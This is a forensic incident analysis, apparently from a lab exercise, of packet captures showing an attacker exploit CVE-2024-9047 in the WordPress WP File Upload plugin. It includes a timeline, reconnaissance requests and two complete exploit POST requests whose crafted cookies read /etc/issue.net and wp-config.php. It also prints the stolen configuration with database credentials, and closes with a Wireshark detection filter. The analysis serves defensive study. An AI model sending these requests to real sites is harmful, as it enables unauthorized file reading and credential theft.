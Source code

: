 # CVE-2024-9047 - (58.16.78.90 -> 192.168.100.101:80)

TCP flows confirm a potentially malicious action by an actor attempting to gather information about the **WP File Upload** plugin. The analyzed requests indicate a clear attempt at initial reconnaissance, followed by a targeted exploit aimed at exfiltrating sensitive files from the server.

## When

| **Event**                     | **Timestamp** | **TCP Stream** | **Details**                                   |
|--------------------------------|---------------|----------------|-----------------------------------------------|
| Information gathering          | 22:42:09:94   | 10             | GET /wp-content/plugins/wp-file-upload/       |
| First exploit                  | 22:43:34:29   | 193            | POST /wp-content/plugins/wp-file-upload/      |
| Second exploit                 | 22:43:43:57   | 215            | POST /wp-content/plugins/wp-file-upload/      |

## Who/Where

| **Role**         | **IP Address**         | **Port**        |
|-------------------|------------------------|-----------------|
| Attacker          | 58.16.78.90           | 34970,49736,46892 |
| Compromised server| 192.168.100.101       | 80 (srv-www)    |

## What

1. The attacker identified the presence of the **wp-file-upload** plugin and its version.

```sh
GET /wp-content/plugins/wp-file-upload/css/wordpress_file_upload_style.css?ver=6.8
GET /wp-content/plugins/wp-file-upload/css/wordpress_file_upload_adminbarstyle.css?ver=6.8
GET /wp-content/plugins/wp-file-upload/vendor/jquery/jquery-ui-timepicker-addon.min.js?ver=6.8
```

2. Exploit on OS information

```sh
POST /wp-content/plugins/wp-file-upload/wfu_file_downloader.php HTTP/1.1
Host: www.potenzio.com
User-Agent: python-requests/2.32.3
...
Cookie: wp_wpfileupload_testupload=Nxploited; 
wfu_storage_file123=/etc/issue.net; wfu_download_ticket_ticket123=9876543210987; wfu_ABSPATH=/
...
file=file123&ticket=ticket123&handler=dboption&session_legacy=1&dboption_base=cookies
&dboption_useold=0&wfu_cookie=wp_wpfileupload_testupload
```

3. Exploit on configuration information

```sh
POST /wp-content/plugins/wp-file-upload/wfu_file_downloader.php HTTP/1.1
Host: www.potenzio.com
User-Agent: python-requests/2.32.3
....
Cookie: wp_wpfileupload_testupload=Nxploited; 
wfu_storage_file123=/var/www/html/wp-config.php; 
wfu_download_ticket_ticket123=9876543210987; wfu_ABSPATH=/
....
file=file123&ticket=ticket123&handler=dboption&session_legacy=1&dboption_base=cookies
&dboption_useold=0&wfu_cookie=wp_wpfileupload_testupload
```

Exfiltrated content:

```php
// ** Database settings //

define( 'DB_NAME', 'wpdb' ); /** The name of the database for WordPress */
define( 'DB_USER', 'wp' ); /** Database username */
define( 'DB_PASSWORD', 'secret4wp' ); /** Database password */
define( 'DB_HOST', '10.0.100.100' ); /** Database hostname */
define( 'DB_CHARSET', 'utf8mb4' ); /** Database charset to use in creating database tables. */
define( 'DB_COLLATE', '' ); /** The database collate type. Don't change this if in doubt. */

/**
 * Authentication unique keys and salts.
 */
define( 'AUTH_KEY','*&xb-+qX)0]kRKF@-Y  Oig}y6f,QBVws)B:sDUA=yEJK.<;4eJ.Ay~g1EfrX-uI' );
...
```

## How

The attacker exploited the vulnerability [CVE-2024-9047](https://nvd.nist.gov/vuln/detail/cve-2024-9047) based on:

- HTTP request manipulation  

The client sent a POST request to wfu_file_downloader.php, simulating a legitimate download operation. 
However, it included malicious parameters such as `wfu_storage_file123=/var/www/html/wp-config.php`,
forcing the server to return the configuration file.

- Abuse of session cookies  

The client used special cookies `(wp_wpfileupload_testupload=Nxploited)` and a download ticket `(wfu_download_ticket_ticket123=9876543210987)`
to bypass the plugin's authorization checks and gain unauthorized access.

## Why

Exfiltration of WordPress database configuration files containing:

- Access credentials (username and password)
- Database connection information
- WordPress authentication keys and salts

**Wireshark filters used**

```bash
http.request.method == "POST" && http.request.uri contains "/wp-content/plugins/wp-file-upload/"
```